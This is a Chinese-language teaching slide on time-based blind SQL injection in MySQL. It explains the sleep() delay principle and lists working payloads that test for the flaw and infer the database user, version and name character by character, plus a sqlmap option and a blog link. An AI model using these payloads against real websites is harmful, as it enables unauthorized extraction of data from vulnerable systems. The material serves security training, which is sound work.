

# 延迟注入
sleep()延迟注入用法
sleep 可以强制产生一个固定的延迟。
sleep()延迟注入核心原理
and if(true,sleep(5),0); ==IF(1=1, true, false);
id=1 and sleep(5)  判断下是否存在延迟注入
and if(substring(user(),1,4)='root',sleep(5),1) 判断当前用户
and if(MID(version(),1,1) LIKE 5, sleep(5), 1)  判断数据库版本信息是否为5
可以去猜解他的数据库名称
and if(ascii(substring(database(),1,4))>100,sleep(5),1)
and If(ascii(substr(database(),1,1))<115,sleep(10),1)--+
and If(length((version()))=6,sleep(10),1)--+
sqlmap --time-sec=2  延迟注入
手工时间盲注
https://blog.csdn.net/DarkHQ/article/details/79274376